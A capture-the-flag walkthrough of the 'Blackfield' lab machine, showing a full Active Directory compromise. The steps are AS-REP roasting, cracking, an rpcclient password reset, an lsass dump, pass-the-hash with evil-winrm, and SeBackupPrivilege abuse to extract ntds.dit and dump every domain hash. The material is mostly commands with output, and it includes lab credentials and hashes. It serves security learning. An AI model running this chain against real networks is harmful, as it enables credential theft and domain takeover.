








# Blackfield



Blackfield is a hard box that involved enumerating users through an SMB share, getting a TGT from a domain controller, cracking the hash and then logging in with rpcclient to change a user's password. Then logging in to the SMB shares with the new password. Then getting an lsass dump from the SMB server to dump a password. Then logging in using evil-winrm to get the user flag. Then to get administrator, use the SeBackupPrivilege and SeRestorePrivilege to get the ntds.dit file and the system hive. Finally, use secretsdump to get the Administrator hash and then pass the hash to login with evil-winrm.

# Overview
- Enumeration of the target
- Using GetNPUsers to get the TGT
- Cracking the TGT and logging in with rpcclient
- Changing audit2020 password
- Logging in to the SMB shares as audit2020
- Getting lsass.DMP and dumping the password hash
- Logging in with evil-winrm
- user.txt
- Using SeBackupPrivilege to create a backup and copying NTDS.dit
- Saving SYSTEM hive
- Dumping Administrator hash with secretsdump
- Logging in with the hash with evil-winrm
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~/htb/blackfield$ nmap -sC -sV -Pn 10.10.10.192
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for BLACKFIELD.local (10.10.10.192)
Host is up (0.037s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=10/2%Time=5F7755A8%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m00s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 188.99 seconds
```

We can see from all the open ports that this is a domain controller. It also has SMB shares, let's take a look at them and see if there is any anonymous access.

## SMB

```bash
finlay@kali:~/htb/blackfield$ smbclient -L 10.10.10.192 -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        forensic        Disk      Forensic / Audit share.
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        profiles$       Disk      
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

We can see that there are some interesting non-default shares, particularly `profiles$` and `forensic`, unfortunately access to `forensic` is denied, so let's see what we can get from `profiles$`

```bash
finlay@kali:~/htb/blackfield$ smbclient //10.10.10.192/profiles$ -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jun  3 12:47:12 2020
  ..                                  D        0  Wed Jun  3 12:47:12 2020
  AAlleni                             D        0  Wed Jun  3 12:47:11 2020
  ABarteski                           D        0  Wed Jun  3 12:47:11 2020
  ABekesz                             D        0  Wed Jun  3 12:47:11 2020
  ABenzies                            D        0  Wed Jun  3 12:47:11 2020
  ...
  ZKrenselewski                       D        0  Wed Jun  3 12:47:12 2020
  ZMalaab                             D        0  Wed Jun  3 12:47:12 2020
  ZMiick                              D        0  Wed Jun  3 12:47:12 2020
  ZScozzari                           D        0  Wed Jun  3 12:47:12 2020
  ZTimofeeff                          D        0  Wed Jun  3 12:47:12 2020
  ZWausik                             D        0  Wed Jun  3 12:47:12 2020

                7846143 blocks of size 4096. 4005831 blocks available
  ```
We can copy the output to a file and use `cut` to trim the end off.

```bash
cut -b 3-15 list.txt > users.txt
```

# Exploitation

## GetNPUsers

Now that we have a list of potential users, we can use [Impacket's](https://github.com/SecureAuthCorp/impacket) GetNPUsers.py to find which users are in the Active Directory and to get TGTs.

I ran the command with `-format john` so that I could crack the hash with john.

```bash
finlay@kali:~/htb/blackfield$ GetNPUsers.py blackfield.local/ -usersfile users.txt -outputfile hash.txt -format john
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We can now crack the password with john.

```bash
finlay@kali:~/htb/blackfield$ cat hash.txt
$krb5asrep$support@BLACKFIELD.LOCAL:fee2dbb84b0285be0f1648b29d603b2b$4c40512b38b943b55f9ee8e1b3a682227d0606e2b481cf458c67002eaedd8538ccf10e08990264ebb0ef8e362f73b4a8b08b904f8d53a14ea9497c465143a5d56f9c5c9715ca5437c36684f800fa8caf6c77550d10a890fe4ac7a2a9f2dc1987c9365e7b52d56f70c10a5e68c72b36db6fc73bf93977f2a4ef5f39ca24a4db0802d4786bfc322bf0d6f5c5aa20a923c8e347f9894f9f0ea6320342f14b46137bbbb5a11e67bd6280576f5bcf6863e4f054a725ebee21bc888d859907fdcf2e29a891973619bb42cd7c7a13ed09e9564ea6d7bf5f149b5021513c5d51abbcc9a5333cf01b62e8a9ceb41e8228cfdfd2e8ad4ab452
finlay@kali:~/htb/blackfield$ john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt
finlay@kali:~/htb/blackfield$ john --show hash.txt
$krb5asrep$support@BLACKFIELD.LOCAL:#00^BlackKnight
```

## rpcclient

I didn't have any luck using these credentials for SMB or evil-winrm, but it did let me login with rpcclient.

```bash
finlay@kali:~/htb/blackfield$ rpcclient //10.10.10.192 -U support
Enter WORKGROUP\support's password: 
rpcclient $>
```

After looking around I didn't find anything interesting, but we are logged in as an account called support. It is common that a support account can change user information, such as passwords. I read [this](https://malicious.link/post/2017/reset-ad-user-password-with-linux/) article about changing AD passwords.

```bash
rpcclient $> setuserinfo2 audit2020 23 0xfinlay!
```

(It requires you to have a special character in the name)

## SMB

Now that we have changed `audit2020`'s password, let's try logging in to the SMB shares.

```bash
finlay@kali:~/htb/blackfield$ smbclient //10.10.10.192/forensic -U audit2020
Enter WORKGROUP\audit2020's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

                7846143 blocks of size 4096. 4001448 blocks available
```

We can see that inside the `forensic` share, there is a few folders, let's take a look.

```bash
smb: \> cd memory_analysis\
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020

                7846143 blocks of size 4096. 4001448 blocks available
```

We can see multiple zip files, the interesting one is lsass.zip, this is because lsass stores credentials in Windows. Let's get the file and unzip it.

```bash
smb: \memory_analysis\> get lsass.zip
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (3543.9 KiloBytes/sec) (average 3543.9 KiloBytes/sec)
smb: \memory_analysis\> exit
finlay@kali:~/htb/blackfield$ unzip lsass.zip
```

## Dumping password from lsass

Now we can use [pypykatz](https://github.com/skelsec/pypykatz) to dump credentials from the file. You could also do this using mimikatz on a Windows machine, but I wanted to do it all on Linux.

```bash
finlay@kali:~/htb/blackfield$ pypykatz lsa minidump lsass.DMP 
INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
...
```

Now we can use the NT hash to login to the box with evil-winrm using pass the hash.



And we find the user flag in C:/Users/svc_backup/Desktop

## User.txt



# Privilege Escalation

## Getting NTDS.dit and SYSTEM hive

Now that we have a foothold, let's run `whoami /priv` to see what privileges we have.


```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We can see that we have the privilege SeBackupPrivilege and SeRestorePrivilege, this is our path to root.

I found [this](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf) document, which details how to get the NTDS.dit file from the box using our privileges. We can also save the SYSTEM registry hive using this privilege, with this combo, we can dump the Administrator hash.

First, we create a script to use with disk shadow.

```bash
finlay@kali:~/htb/blackfield$ cat disk_shadow.txt 
set context persistent nowriters#
add volume c: alias new1#
create#
expose %new1% z:#
```

Then we can download the SeBackupPrivilege modules from [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

Now we can upload all these files to the machine using the `upload` command within evil-winrm.



Once all the files have been uploaded, we can begin the process of extracting the NTDS.dit file

First, run diskshadow on the `disk_shadow.txt` file.



Next, import the SeBackupPrivilege dlls as modules.

```powershell
*Evil-WinRM* PS C:\tmp> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\tmp> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

Then, we can copy the NTDS.dit file from the backup.

```powershell
*Evil-WinRM* PS C:\tmp> Copy-FileSeBackupPrivilege Z:\Windows\NTDS\ntds.dit C:\tmp\ntds.dit
```

Finally, we can save the SYSTEM registry hive.

```powershell
*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system
```

Now, we can download the files to our local machine.



## Getting Administrator hash

Now, back on our local machine, we can use secretsdump to dump the Administrator hash.

```bash
secretsdump.py -ntds ntds.dit -system system local -output hashes.txt
```

Now we can see all the hashes on the domain.

```bash
finlay@kali:~/htb/blackfield$ cat hashes.txt.ntds
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:9e3d10cc537937888adcc0d918813a24:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
...
```

Finally, we can login to the box as Administrator using pass the hash.



## Root.txt

And we find the root flag in C:/Users/Administrator/Desktop

